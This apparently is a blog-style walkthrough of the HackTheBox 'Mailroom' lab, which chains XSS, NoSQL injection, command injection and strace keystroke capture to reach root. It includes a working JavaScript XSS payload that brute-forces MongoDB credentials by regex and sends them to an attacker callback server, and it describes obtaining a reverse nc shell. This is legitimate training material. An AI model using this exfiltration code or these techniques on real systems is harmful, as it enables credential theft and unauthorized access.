# :globe_with_meridians: Mailroom HTB | Gitea | XSS | NoSqli | RCE | Exploit Development | Strace

---

# Mailroom HTB | Gitea | XSS | NoSqli | RCE | Exploit Development | Strace

*21/08/2023*



Mailroom is a challenging Linux machine that hosts a custom web app and a Gitea code repository. The web app has vulnerabilities to Cross-Site Scripting (XSS), which, when combined with Server-Side Request Forgery (SSRF) and NoSQL injection, allows credential extraction. An initial shell leads to a user’s mailbox containing a 2FA link, providing access to another protected subdomain. This subdomain’s app, running inside a Docker container, is prone to command injection. This breach offers credentials from its Git repository, giving access to another user on the host. There’s a recurring KeePass application execution, where observing its process can capture keystrokes. The KeePass database stores vital credentials that, once accessed, lead to root privileges

### Enumeration

>

nmap -sCV -Pn — min-rate=1000 10.10.11.209




Two ports are open: 80,22. let’s browse port 80:




navigate to /about.php



navigate to /contact.php

It seems that this page is vulnerable to XSS:




let’s make a connection to our server:




as you can see, we do get a connection back to our server.

let’s add mailroom.htb to our hosts file:






let’s scan for additional subdomains:




We can use the `-fs` flag to filter out HTTP responses based on their size. Specifically, we’re filtering responses that have a size of 7748 bytes to limit false positives. The `-mc` flag allows us to match specific HTTP status codes. By default, it matches status codes 200, 204, 301, 302, 307, 401, 403, 405, and 500.




Let’s add this subdomain to our hosts file:




Browsing to this subdomain we can see that the repository for staffroom is not password protected:






So we can do a source code review.

auth.php

```
<?php
require 'vendor/autoload.php';

session_start(); // Start a session
$client = new MongoDB\Client("mongodb://mongodb:27017"); // Connect to the MongoDB database
header('Content-Type: application/json');
if (!$client) {
header('HTTP/1.1 503 Service Unavailable');
echo json_encode(['success' => false, 'message' => 'Failed to connect to the database']);
exit;
}
$collection = $client->backend_panel->users; // Select the users collection

// Authenticate user & Send 2FA if valid
if (isset($_POST['email']) && isset($_POST['password'])) {

// Verify the parameters are valid
if (!is_string($_POST['email']) || !is_string($_POST['password'])) {
header('HTTP/1.1 401 Unauthorized');
echo json_encode(['success' => false, 'message' => 'Invalid input detected']);
}



// Check if the email and password are correct
$user = $collection->findOne(['email' => $_POST['email'], 'password' => $_POST['password']]);

if ($user) {
// Generate a random UUID for the 2FA token
$token = bin2hex(random_bytes(16));
$now = time();

// Update the user record in the database with the 2FA token if not already sent in the last minute
$user = $collection->findOne(['_id' => $user['_id']]);
if(($user['2fa_token'] && ($now - $user['token_creation']) > 60) || !$user['2fa_token']) {
$collection->updateOne(
['_id' => $user['_id']],
['$set' => ['2fa_token' => $token, 'token_creation' => $now]]
);

// Send an email to the user with the 2FA token
$to = $user['email'];
$subject = '2FA Token';
$message = 'Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=' . $token;
mail($to, $subject, $message);
}
// Return a JSON response notifying about 2fa
echo json_encode(['success' => true, 'message' => 'Check your inbox for an email with your 2FA token']);
exit;

} else {
// Return a JSON error response
header('HTTP/1.1 401 Unauthorized');
echo json_encode(['success' => false, 'message' => 'Invalid email or password']);
}
}

// Check for invalid parameters
else if (!isset($_GET['token'])) {
header('HTTP/1.1 400 Bad Request');
echo json_encode(['success' => false, 'message' => 'Email and password are required']);
exit;
}

// Check if the form has been submitted
else if (isset($_GET['token'])) {
// Verify Token parameter is valid
if (!is_string($_GET['token']) || strlen($_GET['token']) !== 32) {
header('HTTP/1.1 401 Unauthorized');
echo json_encode(['success' => false, 'message' => 'Invalid input detected']);
exit;
}

// Check if the token is correct
$user = $collection->findOne(['2fa_token' => $_GET['token']]);






if ($user) {
// Set the logged_in flag and name in the session
$_SESSION['logged_in'] = true;
$_SESSION['name'] = explode('@', $user['email'])[0];

// Remove 2FA token since user already used it to log in
$collection->updateOne(
['_id' => $user['_id']],
['$unset' => ['2fa_token' => '']]
);

// Redirect to dashboard since login was successful
header('Location: dashboard.php');
exit;
} else {
// Return a JSON error response
header('HTTP/1.1 401 Unauthorized');
echo json_encode(['success' => false, 'message' => 'Invalid 2FA Login Token']);









exit;
}
}



?>
```

there is another subdomain called *staff-review-panel*

let’s add it to our hosts file:

browse it:

we must use the xss vulnerability in order to access and exploit `staff-review-panel.mailroom.htb`. Let's use the following script to get a better look at the subdomain. The code we provided is an example of a malicious script attempting to exfiltrate data from a target website to an attacker-controlled server.




The reason for using `false` (synchronous request) in this context is to ensure that the script waits for the `xhr` tocomplete and obtaina responsebefore proceeding. If this were an asynchronous request (the default behavior, which is ‘true’), the script might proceed to the next steps before the content of the target page is obtained, thereby possibly resulting in the failure of the data exfiltration attempt.






let’s decoding the base64 encoding string. It reveals the following html code:

```
┌──(kali㉿kali)-[~/Desktop/mailroom]
└─$ echo -n 'CjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI+Cgo8aGVhZD4KICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCIgLz4KICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEsIHNocmluay10by1maXQ9bm8iIC8+CiAgPG1ldGEgbmFtZT0iZGVzY3JpcHRpb24iIGNvbnRlbnQ9IiIgLz4KICA8bWV0YSBuYW1lPSJhdXRob3IiIGNvbnRlbnQ9IiIgLz4KICA8dGl0bGU+SW5xdWlyeSBSZXZpZXcgUGFuZWw8L3RpdGxlPgogIDwhLS0gRmF2aWNvbi0tPgogIDxsaW5rIHJlbD0iaWNvbiIgdHlwZT0iaW1hZ2UveC1pY29uIiBocmVmPSJhc3NldHMvZmF2aWNvbi5pY28iIC8+CiAgPCEtLSBCb290c3RyYXAgaWNvbnMtLT4KICA8bGluayBocmVmPSJmb250L2Jvb3RzdHJhcC1pY29ucy5jc3MiIHJlbD0ic3R5bGVzaGVldCIgLz4KICA8IS0tIENvcmUgdGhlbWUgQ1NTIChpbmNsdWRlcyBCb290c3RyYXApLS0+CiAgPGxpbmsgaHJlZj0iY3NzL3N0eWxlcy5jc3MiIHJlbD0ic3R5bGVzaGVldCIgLz4KPC9oZWFkPgoKPGJvZHk+CiAgPGRpdiBjbGFzcz0id3JhcHBlciBmYWRlSW5Eb3duIj4KICAgIDxkaXYgaWQ9ImZvcm1Db250ZW50Ij4KCiAgICAgIDwhLS0gTG9naW4gRm9ybSAtLT4KICAgICAgPGZvcm0gaWQ9J2xvZ2luLWZvcm0nIG1ldGhvZD0iUE9TVCI+CiAgICAgICAgPGgyPlBhbmVsIExvZ2luPC9oMj4KICAgICAgICA8aW5wdXQgcmVxdWlyZWQgdHlwZT0idGV4dCIgaWQ9ImVtYWlsIiBjbGFzcz0iZmFkZUluIHNlY29uZCIgbmFtZT0iZW1haWwiIHBsYWNlaG9sZGVyPSJFbWFpbCI+CiAgICAgICAgPGlucHV0IHJlcXVpcmVkIHR5cGU9InBhc3N3b3JkIiBpZD0icGFzc3dvcmQiIGNsYXNzPSJmYWRlSW4gdGhpcmQiIG5hbWU9InBhc3N3b3JkIiBwbGFjZWhvbGRlcj0iUGFzc3dvcmQiPgogICAgICAgIDxpbnB1dCB0eXBlPSJzdWJtaXQiIGNsYXNzPSJmYWRlSW4gZm91cnRoIiB2YWx1ZT0iTG9nIEluIj4KICAgICAgICA8cCBoaWRkZW4gaWQ9Im1lc3NhZ2UiIHN0eWxlPSJjb2xvcjogIzhGOEY4RiI+T25seSBzaG93IHRoaXMgbGluZSBpZiByZXNwb25zZSAtIGVkaXQgY29kZTwvcD4KICAgICAgPC9mb3JtPgoKICAgICAgPCEtLSBSZW1pbmQgUGFzc293cmQgLS0+CiAgICAgIDxkaXYgaWQ9ImZvcm1Gb290ZXIiPgogICAgICAgIDxhIGNsYXNzPSJ1bmRlcmxpbmVIb3ZlciIgaHJlZj0icmVnaXN0ZXIuaHRtbCI+Q3JlYXRlIGFuIGFjY291bnQ8L2E+CiAgICAgIDwvZGl2PgoKICAgIDwvZGl2PgogIDwvZGl2PgoKICA8IS0tIEJvb3RzdHJhcCBjb3JlIEpTLS0+CiAgPHNjcmlwdCBzcmM9ImpzL2Jvb3RzdHJhcC5idW5kbGUubWluLmpzIj48L3NjcmlwdD4KCiAgPCEtLSBMb2dpbiBGb3JtLS0+CiAgPHNjcmlwdD4KICAgIC8vIEdldCB0aGUgZm9ybSBlbGVtZW50CiAgICBjb25zdCBmb3JtID0gZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ2xvZ2luLWZvcm0nKTsKCiAgICAvLyBBZGQgYSBzdWJtaXQgZXZlbnQgbGlzdGVuZXIgdG8gdGhlIGZvcm0KICAgIGZvcm0uYWRkRXZlbnRMaXN0ZW5lcignc3VibWl0JywgZXZlbnQgPT4gewogICAgICAvLyBQcmV2ZW50IHRoZSBkZWZhdWx0IGZvcm0gc3VibWlzc2lvbgogICAgICBldmVudC5wcmV2ZW50RGVmYXVsdCgpOwoKICAgICAgLy8gU2VuZCBhIFBPU1QgcmVxdWVzdCB0byB0aGUgbG9naW4ucGhwIHNjcmlwdAogICAgICBmZXRjaCgnL2F1dGgucGhwJywgewogICAgICAgIG1ldGhvZDogJ1BPU1QnLAogICAgICAgIGJvZHk6IG5ldyBVUkxTZWFyY2hQYXJhbXMobmV3IEZvcm1EYXRhKGZvcm0pKSwKICAgICAgICBoZWFkZXJzOiB7ICdDb250ZW50LVR5cGUnOiAnYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkJyB9CiAgICAgIH0pLnRoZW4ocmVzcG9uc2UgPT4gewogICAgICAgIHJldHVybiByZXNwb25zZS5qc29uKCk7CgogICAgICB9KS50aGVuKGRhdGEgPT4gewogICAgICAgIC8vIERpc3BsYXkgdGhlIG5hbWUgYW5kIG1lc3NhZ2UgaW4gdGhlIHBhZ2UKICAgICAgICBkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgnbWVzc2FnZScpLnRleHRDb250ZW50ID0gZGF0YS5tZXNzYWdlOwogICAgICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCdwYXNzd29yZCcpLnZhbHVlID0gJyc7CiAgICAgICAgZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ21lc3NhZ2UnKS5yZW1vdmVBdHRyaWJ1dGUoImhpZGRlbiIpOwogICAgICB9KS5jYXRjaChlcnJvciA9PiB7CiAgICAgICAgLy8gRGlzcGxheSBhbiBlcnJvciBtZXNzYWdlCiAgICAgICAgLy9hbGVydCgnRXJyb3I6ICcgKyBlcnJvcik7CiAgICAgIH0pOwogICAgfSk7CiAgPC9zY3JpcHQ+CjwvYm9keT4KPC9odG1sPg==' | base64 -d

<!DOCTYPE html>
<html lang="en">

<head>
<meta charset="utf-8" />
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
<meta name="description" content="" />
<meta name="author" content="" />
<title>Inquiry Review Panel</title>
<!-- Favicon-->
<link rel="icon" type="image/x-icon" href="assets/favicon.ico" />
<!-- Bootstrap icons-->
<link href="font/bootstrap-icons.css" rel="stylesheet" />
<!-- Core theme CSS (includes Bootstrap)-->
<link href="css/styles.css" rel="stylesheet" />
</head>

<body>
<div class="wrapper fadeInDown">
<div id="formContent">

<!-- Login Form -->
<form id='login-form' method="POST">
<h2>Panel Login</h2>
<input required type="text" id="email" class="fadeIn second" name="email" placeholder="Email">
<input required type="password" id="password" class="fadeIn third" name="password" placeholder="Password">
<input type="submit" class="fadeIn fourth" value="Log In">
<p hidden id="message" style="color: #8F8F8F">Only show this line if response - edit code</p>
</form>



<!-- Remind Passowrd -->
<div id="formFooter">
<a class="underlineHover" href="register.html">Create an account</a>
</div>

</div>
</div>

<!-- Bootstrap core JS-->
<script src="js/bootstrap.bundle.min.js"></script>

<!-- Login Form-->
<script>
// Get the form element
const form = document.getElementById('login-form');

// Add a submit event listener to the form
form.addEventListener('submit', event => {
// Prevent the default form submission
event.preventDefault();

// Send a POST request to the login.php script
fetch('/auth.php', {
method: 'POST',
body: new URLSearchParams(new FormData(form)),
headers: { 'Content-Type': 'application/x-www-form-urlencoded' }
}).then(response => {
return response.json();

}).then(data => {
// Display the name and message in the page
document.getElementById('message').textContent = data.message;
document.getElementById('password').value = '';
document.getElementById('message').removeAttribute("hidden");
}).catch(error => {
// Display an error message
//alert('Error: ' + error);
});
});
</script>
</body>
</html>
```

Let’s take a closer look at the auth.php code:



## Get Aydin Naserifard’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

These parts of the code get data directly from the user. so it is vulnerable to NoSQli.

```
$user = $collection->findOne(['email' => $_POST['email'], 'password' => $_POST['password']]);
```

```
$user = $collection->findOne(['2fa_token' => $_GET['token']]);
```

here is our final exploit code:

```



var target = "http://staff-review-panel.mailroom.htb/auth.php";
var callbackServer = "10.10.14.64";
var callbackPort = 8000;
var charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@.";

function sendToCallbackServer(message) {
var encodedMessage = btoa(unescape(encodeURIComponent(message)));
var xhr = new XMLHttpRequest();
xhr.open("GET", `http://${callbackServer}:${callbackPort}/${encodedMessage}`);
xhr.send();
}

function testPayload(credType, value, otherCredValue) {
var otherCred = credType === "email" ? "password" : "email";
var payload = `${credType}[$regex]=^${value}&${otherCred}[$regex]=${otherCredValue || "^."}`;

var xhr = new XMLHttpRequest();
xhr.open("POST", target, false);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send(payload);

return xhr.responseText.includes("2FA");
}

function bruteForce(credType, otherCredValue) {
var leakedCred = "";
var currentCharIndex = 0;

while (currentCharIndex < charset.length) {
var nextCharGuess = charset[currentCharIndex];

if (testPayload(credType, leakedCred + nextCharGuess, otherCredValue)) {
leakedCred += nextCharGuess;
currentCharIndex = 0; // Reset index when a char is found
} else {
currentCharIndex++;
}
}



sendToCallbackServer(`${credType} found: ${leakedCred}`);
return leakedCred;
}

sendToCallbackServer("Starting exploit...");

var email = bruteForce("email");
var password = bruteForce("password", email);



```

let’s decoding the base64 encoding strings:




let’s ssh into the box:






>

let’s use ss -tulwn. We are aiming to determine which ports are open and in a listening state for the purpose of port forwarding.




let’s do a port forward:

let’s add ‘*staff-review-panel.mailroom.htb*’ to our hosts file:






We must input the credentials we found earlier. It will show us a message: “Check your inbox for an email with your 2FA token!”




By going to the /var/mail folder, we find the 2FA token.




navigate to the provided link:

In the Inspect module, there is a possibility of RCE vulnerability. Let’s look closer at the inspect code from Gitea:












The regex pattern for sanitization does not include backticks (`). In many shells, backticks are used to execute the commands within them. let’s provide a shell:




and exploit the RCE:

and we do get a nc shell.



We get Matthew’s credentials from the config file. Let’s move laterally to the target:







and we do get the user flag.

It’s time to upload pspy to enumerate the tagret to do privilege escalation.







>

kpcli is a command line interface to KeePass database files.

Let’s investigate Linux processes. I am trying to use Strace to list all the system calls performed by the process that kpcli uses.




There is a typo. `\10` represents a backspace.

- The user typed the password. (Original: `!sEcUr3p4$$w01\10rd9)`






- At some point, they made a typo by entering `1`.




- The user used a backspace (represented by `\10`) to correct it.

- They continued typing the password. Taking into account the backspace (`\10`): password is: `!sEcUr3p4$$w0rd9`

Let’s download *personal.kdbx* to our local machine using nc:

After accessing the KeePass database file, we were able to retrieve the root password, granting us full system privileges. we have two options:

## using keepassxc

KeePassXC is a free and open-source password manager that allows users to store and manage their passwords in a secure way. KeePassXC is designed to be compatible with `.kdbx` files, which are the database files created and used by KeePass and its derivatives.







### using kpcli:

`kpcli` stands for KeePass Command Line Interface. It's a command line interface (CLI) tool that allows users to interact with KeePass database files without a graphical user interface. This can be particularly useful for those who prefer using terminal-based applications or need to access KeePass databases on systems without a graphical interface.







Let’s switch to the root user. We do get the root flag.




---
